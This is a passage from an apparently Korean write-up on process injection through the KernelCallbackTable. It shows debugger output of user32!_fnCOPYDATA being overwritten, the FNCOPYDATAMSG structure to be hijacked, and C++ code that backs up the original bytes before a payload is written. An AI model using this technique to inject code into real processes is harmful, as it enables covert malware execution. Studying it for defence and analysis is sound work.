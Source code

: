 디버거에서 아래와 같이 변조된 결과를 확인할 수 있다. 이제 원하는 코드를 저 곳에 삽입하여 실행되도록 하면된다.

```powershell
/* 변조 전 */
0:005> u 00007ffc`5d3e4900
user32!_fnCOPYDATA:
00007ffc`5d3e4900 4883ec58 sub rsp,58h
00007ffc`5d3e4904 33c0 xor eax,eax
00007ffc`5d3e4906 4c8bd1 mov r10,rcx
00007ffc`5d3e4909 89442438 mov dword ptr [rsp+38h],eax
00007ffc`5d3e490d 4889442440 mov qword ptr [rsp+40h],rax
00007ffc`5d3e4912 394108 cmp dword ptr [rcx+8],eax
00007ffc`5d3e4915 740b je user32!_fnCOPYDATA+0x22 (00007ffc`5d3e4922)
00007ffc`5d3e4917 48394120 cmp qword ptr [rcx+20h],rax
0:005> u 00007ffc`5d3e4900

/* 변조 후 */
user32!_fnCOPYDATA:
00007ffc`5d3e4900 41 ???
00007ffc`5d3e4901 41 ???
00007ffc`5d3e4902 41 ???
00007ffc`5d3e4903 4133c0 xor eax,r8d
00007ffc`5d3e4906 4c8bd1 mov r10,rcx
00007ffc`5d3e4909 89442438 mov dword ptr [rsp+38h],eax
00007ffc`5d3e490d 4889442440 mov qword ptr [rsp+40h],rax
00007ffc`5d3e4912 394108 cmp dword ptr [rcx+8],eax
0:005> db 00007ffc`5d3e4900
00007ffc`5d3e4900 41 41 41 41 33 c0 4c 8b-d1 89 44 24 38 48 89 44 AAAA3.L...D$8H.D
00007ffc`5d3e4910 24 40 39 41 08 74 0b 48-39 41 20 75 05 e8 ee 03 $@9A.t.H9A u....
```

공격에 이용할 _fnCOPYDATA() 함수는 다음과 같은 형태와 구조체 파라미터를 입력 받는다. 이 구조를 대체하여 원하는 코드를 실행하도록 한다.

```c++
DWORD _fnCOPYDATA(FNCOPYDATAMSG *pMsg);

typedef struct _FNCOPYDATAMSG {
	CAPTUREBUF CaptureBuf;
	PWND pwnd;
	UINT msg;
	HWND hwndFrom;
	BOOL fDataPresent;
	COPYDATASTRUCT cds;
	ULONG_PTR xParam;
	PROC xpfnProc;
} FNCOPYDATAMSG;
```

이 후 내용은 참고 사이트와 약간의 차이가 존재한다. 우선 삽입할 PAYLOAD 만큼의 원본 코드를 복사하여 저장한다.

```c++
if (ReadProcessMemory(hProcess, (BYTE*)pKernelCallbackTable[0], originCode, sizeof(PAYLOAD), NULL)) {
    printf("\t\t\t[*] Backup Origin Code\n");
}
else throw new exception("ReadProcessMemory()");
```
